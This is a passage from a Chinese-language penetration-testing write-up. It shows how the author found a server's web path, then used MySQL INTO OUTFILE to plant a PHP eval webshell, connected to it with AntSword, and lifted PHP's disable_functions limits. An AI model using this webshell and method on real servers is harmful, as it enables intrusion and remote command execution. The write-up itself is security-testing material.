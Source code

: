 发现 **D:\\** 下一个有趣的目录 **HwsApacheMaster**，仅此而已。

此时把精力转向 Web 页面；打算在网页上瞎乱试，指望 Web Application 程序出错，大力出奇迹般的报错将 Web 物理路径爆出来。绞尽脑汁地让程序报错；可惜，并没有。。。

思考许久……思路来了。

前面通过浏览器缓存发现的那个密码（[**huweishen.com**](http://huweishen.com/)）很有意思，通过这个密码可以发现，phpMyAdmin 是管理员**默认安装**的；灵光一现，直接去这个网站下载这个傻瓜式一键安装的软件（**护卫神**），**安装至本地测试**，不就知道了物理路径了嘛！！！

这款软件叫做【**护卫神·Apache 大师**】；安装一整套环境至本地，发现目录结构如下：

```text
├── D:/
│   ├── HwsApacheMaster
│   │   ├── phpmyadmin
│   │   │   ├── web
│   │   │   |    ├── libraries
│   │   │   |    ├── database
│   │   │   |    ├── doc
│   │   │   |    ├── js
│   │   │   |    ├── setup
│   │   │   |    ├── themes
│   │ 	├── Apache2.2
│   │ 	├── Tomcat8
│   │ 	├── mysql
│   │ 	├── Java
│   │ 	├── php
… … … … …
```

此时很明确了，直接一句话木马写至某目录；还有注意转义符。

```shell
MySQL [(none)]> select "<?php @eval($_POST['a']); ?>" into outfile 'D:\\\\HwsApacheMaster\\\\phpMyAdmin\\\\web\\\\she11.php';
Query OK, 1 row affected (0.002 sec)
```

然后，就可以使用**菜刀**等 shell 连接工具与木马进行连接；连接密码为 **a** 。

## 后渗透测试

### 中国蚁剑

由于菜刀只能在 Windows 上使用，而我操作系统为 Linux，使用的是另一款 shell 连接工具 [**AntSword(蚁剑)**](https://github.com/AntSwordProject/antSword) ， 开源、跨平台的网站（shell）管理工具。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/dfef7653-8bac-45bb-b816-9451d6aba8a8/antsword.jpg?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=d0d505d02d2474078116be255fd80c46d1612547592bc107a66d37f34ba21fa5&X-Amz-SignedHeaders=host&x-id=GetObject)

连接上去后，进入终端，输入 **cmd** 命令会发现无法执行。

```shell
D:\\HwsApacheMaster\\phpmyadmin\\web> whoami
ret=127
```

这说明，php 配置文件 **php.ini** 中将一些危险函数给禁用掉了，即 **disable_functions**。将此项删除，清理一下缓存，便可以执行 cmd 了。
